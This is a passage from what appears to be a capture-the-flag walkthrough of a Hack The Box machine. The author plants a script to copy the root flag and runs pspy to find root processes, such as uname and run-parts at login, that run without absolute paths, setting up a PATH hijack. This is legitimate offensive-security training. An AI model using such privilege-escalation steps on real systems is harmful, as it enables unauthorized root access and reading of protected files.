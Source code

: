 We are going to use the same procedure as iptables, create a cleanup.pl script that spits out our root flag that we so deserve:

```console
#!/bin/bash
cat /root/root.txt > /home/jkr/root.txt
```
Damnit dude, what the hell. At this point I went from being 100% certain I know what to do. I recheck all my scripts for syntax errors or other stupid things I overlooked. I did not find anything. I went to bed.

New day – thinking about what other things we can trigger. I didn’t see any interesting cron jobs that I could leverage. Let’s look at what happens when I log into the box to begin with by run pspy on one terminal and login with another:

```console
root@endeavour:~/htb/writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct  2 11:28:15 2019 from 10.10.14.75
```

Our pspy output:

```console
2019/10/02 11:30:48 CMD: UID=0    PID=1      | init [2]   
2019/10/02 11:31:01 CMD: UID=0    PID=6757   | /usr/sbin/CRON 
2019/10/02 11:31:01 CMD: UID=0    PID=6758   | /usr/sbin/CRON 
2019/10/02 11:31:01 CMD: UID=0    PID=6759   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2019/10/02 11:31:02 CMD: UID=0    PID=6760   | sshd: [accepted]
2019/10/02 11:31:02 CMD: UID=102  PID=6761   | sshd: [net]       
2019/10/02 11:31:07 CMD: UID=0    PID=6762   | sshd: jkr [priv]  
2019/10/02 11:31:07 CMD: UID=0    PID=6763   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/10/02 11:31:07 CMD: UID=0    PID=6764   | run-parts --lsbsysinit /etc/update-motd.d 
2019/10/02 11:31:07 CMD: UID=0    PID=6765   | uname -rnsom 
2019/10/02 11:31:07 CMD: UID=0    PID=6766   | sshd: jkr [priv]  
2019/10/02 11:31:09 CMD: UID=1000 PID=6767   | sshd: jkr@pts/1   
2019/10/02 11:31:09 CMD: UID=1000 PID=6768   | -bash 
2019/10/02 11:31:09 CMD: UID=1000 PID=6769   | -bash 
2019/10/02 11:31:09 CMD: UID=1000 PID=6770   | -bash 
2019/10/02 11:31:09 CMD: UID=1000 PID=6771   | -bash 
2019/10/02 11:31:23 CMD: UID=1000 PID=6772   | -bash 
```
It looks like **PID 6763**, **6764** and **6765** do not have absolute paths and run as root, which means we can keep attempting the same technique as before. Let’s try uname. I want to check where its typically located, so I check my machine:
